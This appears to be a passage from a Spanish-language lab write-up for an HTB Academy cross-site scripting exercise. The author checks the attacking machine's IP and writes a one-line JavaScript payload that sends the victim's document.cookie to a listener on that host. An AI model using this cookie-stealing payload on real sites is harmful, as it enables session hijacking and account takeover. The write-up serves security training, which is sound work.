 ![alt text](../assets/images/HTB_Academy_XSS/image-60.png)

Compruebo mi IP de la maquina atacante

![alt text](../assets/images/HTB_Academy_XSS/image-59.png)

Hago un script de Javascript que se llamara script.js 
```sh
touch script.js
nano script.js
```

y contiene la siguiente linea:

```js
new Image().src='http://10.10.15.192:8080/index.php?c='+document.cookie;
```

![alt text](../assets/images/HTB_Academy_XSS/image-63.png)

